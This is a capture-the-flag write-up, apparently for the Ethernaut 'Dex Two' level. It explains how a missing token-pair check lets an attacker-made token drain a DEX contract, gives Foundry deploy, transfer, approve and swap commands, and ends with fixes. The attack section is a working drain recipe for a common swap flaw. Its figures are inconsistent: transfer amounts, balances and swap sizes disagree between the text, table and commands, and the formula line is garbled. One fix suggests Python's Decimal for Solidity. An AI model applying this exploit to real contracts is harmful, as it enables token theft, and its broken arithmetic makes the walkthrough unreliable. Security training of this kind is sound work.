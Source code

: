 # Dex2

This level requires you to exploit the DexTwo contract, a subtly modified version of the previous Dex contract, in a different manner. Your goal is to drain all balances of token1 and token2 from the DexTwo contract to complete the level.

You begin with 10 tokens each of token1 and token2 and DexTwo contract initially holds 100 tokens each of token1 and token2.

## Vulnerability

We will notice a missing line:

```bash
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

This line is responsible for validating that swapping is only allowed between the two token addresses defined by the contract. Since this requirement is absent in `DexTwo`, we are allowed to swap any tokens, including ones we create. This is the key to draining the`DexTwo` contract.

## Attack

| Dex Two |      |      |Player|      |      |
|---------|------|------|------|------|------|
| token1  |token2|  BTN |token1|token2|  BTN |
| 100     |  100 |  100 |   10 |   10 |  300 |
| 0       |  100 |  200 |  110 |   10 |  200 | swap(token1, BTN)
| 0       |    0 |  400 |  110 |  110 |  0   | swap(token2, BTN)

```bash
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}

# It calculates the amount of token2 that will be returned when x amount of BTN is swapped. The formula is rearranged to solve for x, which gives x = 200 BTN. This means that to get all 100 token2 from the Dex, 200 BTN need to be swapped.
# 100 = (x * 100)/200 (200 tokens were minted by the contract)
```

According to the formula in `get_swap_amount()`, to get all the token2 from the Dex2, we need `100 = (x * 100)/200 - x = 200 BTN`. Therefore, we need to swap 200 BTN to get 100 token2. Once this is done, here's how the final balance table will look:

1. Deploy `DeployDex2Attack.sol`.

```bash
forge script script/DeployDex2AttackToken.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# https://sepolia.etherscan.io/address/0x4142F5632A070eE59FBe6C31C46f3194eEf007B2

# At $CONTRACT_ADDRESS=0x4142F5632A070eE59FBe6C31C46f3194eEf007B2
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 500
```

2. Send 300 BTN from `Dex2AttackToken` to `Dex2`.

```bash
cast send $CONTRACT_ADDRESS "transfer(address,uint256)" $DEX2_ADDRESS 100 --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --legacy

# At $CONTRACT_ADDRESS
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 0

# At Dex2 contract
# balanceOF
# token address (BTN): 0x4142F5632A070eE59FBe6C31C46f3194eEf007B2
# Dex2 contract address (DEX2_ADDRESS): 0x53173d243A267FccFB4905c61A1dfc6a9EB6e2c6
# equals 500
```

3. In `Dex2AttackToken`, approve `Dex2 address` to spend 300 BTN and enable it to perform the swap later.

```bash
cast send $CONTRACT_ADDRESS "approve(address,uint256)" $DEX2_ADDRESS 300 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```

4. Execute the swap of both tokens.

```bash
#swap(BTN, token1, 100);
#swap(BTN, token2, 200);

cast send $DEX2_ADDRESS "swap(address,address,uint256)" $CONTRACT_ADDRESS 0x048D9e8B3fD36dc840fD6E86d4de6b42C22274C7 100 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

cast send $DEX2_ADDRESS "swap(address,address,uint256)" $CONTRACT_ADDRESS 0x60Be6F80AC4C5eCAEF36745637e0A629732C2c1C 200 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```

## Fix

1. Add a validation check in the swap function to ensure that the tokens being swapped are only the ones that the contract is supposed to handle.
   
2. Use a more precise arithmetic library or implement your own that can handle large numbers and fractional values without rounding down. This could be a library like `Decimal` in Python or `BigDecimal` in Java.

3. Instead of directly using the balances of token1 and token2 to calculate the swap rate, use a price oracle or some other external, reliable source of pricing information to determine the correct swap rate.

4. Implement checks to ensure that the User cannot drain the Dex's tokens. This could be a maximum limit on the size of a single swap or a check that the Dex's balance of a token cannot go below a certain threshold.

5. Consider implementing a `slippage` protection mechanism. This would allow users to specify a maximum acceptable `slippage (price change)` for their swap. If the actual slippage exceeds this amount, the transaction would be reverted.
